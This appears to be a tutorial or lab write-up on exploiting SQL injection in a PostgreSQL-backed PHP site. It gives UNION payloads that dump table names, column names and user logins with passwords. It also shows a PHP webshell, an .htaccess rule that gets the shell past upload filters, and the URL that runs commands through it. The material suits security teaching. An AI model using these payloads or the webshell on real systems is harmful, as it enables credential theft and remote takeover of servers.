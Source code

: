
<h3>Detection And Exploitation of SQL Injection</h3>

This is the error message you get which tells you it is vulnerable to sqli
```vb
Warning: pg_exec(): Query failed: ERROR: unterminated quoted string at or near "'" LINE 1: SELECT * FROM pictures where cat=2' ^ in /var/www/classes/picture.php on line 17 ERROR: unterminated quoted string at or near "'" LINE 1: SELECT * FROM pictures where cat=2' ^ 
```



<h3>Exploitation of SQL injection</h3>
To do this the union attack can be used. So, we can have a query like this
```sql
UNION SELECT 1,2,3--
```


<h3>Exploiting SQL injection with UNION on Postgresql</h3>
Like for MySQL, exploiting SQL injections using `UNION` follows the steps

>Find the number of columns to perform the UNION
>Find a column with the right type to get information echoed in the page
>Retrieve information from the database meta-tables
>Retrieve information from other tables/databases

There are 2 methods to get the number of columns present
>using `UNION SELECT` and increase the number of columns
>using `ORDER BY` statement


<h3>Retrieving Information</h3>
Now that we know the number of columns, we can retrieve information from the database. 

Compared to MySQL, PostgreSQL requires one step to get the  `UNION` statement to work properly: the columns need to be of the same type between the two queries and the first query decided what type.

If we used the query
```sql
1 UNION SELECT 1,2,3,4
```
We can see the error message displayed
```sql
Warning: pg_exec(): Query failed: ERROR: UNION types character varying and integer cannot be matched
```

To avoid this error we can replace `1,2,3,4` with `null,null,null,null` . So to test for vulnerable columns we can do something like this
```sql
1 UNION SELECT 'test',null,null,null
```
We test this until we get the vulnerable  column. If we find the vulnerable columns we can run stuffs like `version()` and `current_user` and `current_database()`

To retrive tablename from postgresql
```sql
SELECT tablename FROM pg_tables
```
To retrieve columnname
```sql
SELECT column_name FROM information_schema.columns
```

Full query
```sql
1 UNION SELECT null,tablename,null,null FROM pg_tables
1 UNION SELECT null,column_name,null,null FROM information_schema.columns
```

If the `information_schema.columns` stores table names then to retrieve the information
```sql
1 UNION SELECT null,table_name,column_name,null,null FROM information_schema.columns
```
We can also concatenate the table_name and column_name using the `||` operator
```sql
1 UNION SELECT null,table_name||':'||column_name,null,null FROM information_schema.columns
```

Using this information one can go ahead to build a query to retrieve informtation from this table
```sql
1 UNION SELECT null,login||':'||password,null,null FROM users;
```



<h3>Access to the Administration Pages  and Code Execution</h3>

For this we can crack the password we got from the database so we can log in as the administrator user

<h4>Uploading a Webshell and Code Execution</h4>
Once we have access to the administration page, we can go ahead and look for a way to execute commands on the operating system

If there is an upload function,then we can go ahead to upload a php script

We can use a webshell as simple as this
```php
<?php
	  system($_GET['cmd']);
	?>
```
If the upload functionality doesn't allow `.php` extensions we can go on to try other stuffs. The goal is to look for ways to get command injection


<h3>Introduction to .htaccess</h3>
`.htaccess` are used to perform per-directory modification of the Apache configuration. They can be extremely dangerous if you can upload one that get interpreted by the server.

The most common way to gain commands execution is to add a handler for an arbitrary extention
```
AddType application/x-httpd-php .blah
```
This line will tell Apache to interpret file with the extension `.blah` using the php engine. Since `.blah` files are less likely to be filtered by the application

Once we have uploaded the `.htaccess` file with the content above. We can now rename our file `shell.php` to `shell.blah` and upload

With this we can get commands execution execution


<h3>Getting commands Execution</h3>
We can execute our script by doing this
```
http://example.com/admin/uploads/shell.blah?cmd=id
```

With this we get the command code execution which eventually leads to RCE(Remote Code Execution)












